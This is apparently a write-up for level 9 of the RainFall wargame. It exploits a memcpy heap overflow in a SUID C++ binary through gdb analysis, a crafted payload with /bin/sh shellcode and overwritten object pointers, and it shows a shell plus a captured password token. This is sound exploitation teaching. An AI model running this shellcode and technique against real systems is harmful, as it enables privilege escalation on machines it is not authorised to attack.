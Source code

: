# Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
### main() overview

Globally, ```main()``` initializes two instances (```n1``` & ```n2```) of class ```N``` which contain:
1. an annotation (string)
2. a number (int)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```n1->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` adds ```n1``` + ```n2```.

### Route to solution

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```n1->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, we can't reach and overwrite EIP... as shown in the following example used with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/).
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```n2``` after ```n1``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```n1``` and ```n2```. 

We can't write our malicious code in ```n1``` then overwrite ```n2``` with the address of our malicious code, then have ```main()``` call our malicious code for us when it adds... because ```main()``` accesses ```n1->annotation``` dereferenced twice (a pointer to a pointer to contents). This means that we need a pointer to a pointer to our shell code. 

So the strategy here is:
- write the address of our shell code + our shell code + a buffer in ```n1```
- write the address of ```n1``` in ```n2```

This means that we need to find ```n1```'s address and ```n2```'s offset from ```n1```.

### Find n1 address

We need to find the address of ```n1```. In gdb, in the main we find the instruction after the call to ```n1->setAnnotation()``` is ```*main+136```. Put a break point at ```*main+136```, and run with a 4 byte argument ("BUFF"). Displaying the memory at %eax we find our argument stored in the buffer at ```0x804a00c```
```
level9@RainFall:~$ gdb -q level9
...
(gdb) disas main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
...
(gdb) break *main+136
...
(gdb) run "BUFF"
...
(gdb) x/s $eax
0x804a00c:	 "BUFF"
```

### Find n2 offset

We need to find out how many bytes we write in ```n1``` before we overflow into ```n2```?

Lets run the binary with our a pattern string from our favorite [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and make it segfault.

We can see ```n2``` corresponds to register ```eax``` at time of segfault.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

(gdb) info register eax
eax            0x41366441	1094083649
```
Lets convert the contents of ```eax``` from hex to ascii with ```xxd```
```
>$ echo 0x41366441 | xxd -r -p | rev
Ad6A
```
Searching for ```Ad6A``` in the pattern string we find it starts at byte 109. This means we can overwrite ```n2``` from byte 109 of our exploit string.

### Build exploit string

So we build our exploit which will be copied to buffer address ```0x804a00c```:
1. address of malicious code (part 2) - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```n2``` - ```"A" * 76```
4. address of address of malicious code (part 1) - ```\x0c\xa0\04\x08```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Recreate Exploited Binary

As user ```bonus0```, in ```/tmp```, create and compile ```level9_source.cpp```
```
bonus0@RainFall:/tmp$ g++ level9_source.cpp -fno-stack-protector -z execstack -o level9_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus0@RainFall:/tmp$ chmod u+s level9_source; chmod +wx ~; mv level9_source ~
```

Exit back to user ```level9```, then provide our exploit with updated addresses.
With the same method as above we find the buffer address ```0x0804b008```.
```
bonus0@RainFall:/tmp$ exit
exit
level9@RainFall:~$ /home/user/bonus0/level9_source $(python -c 'print "\x10\xb0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xb0\04\x08"')
$ whoami
bonus0
```
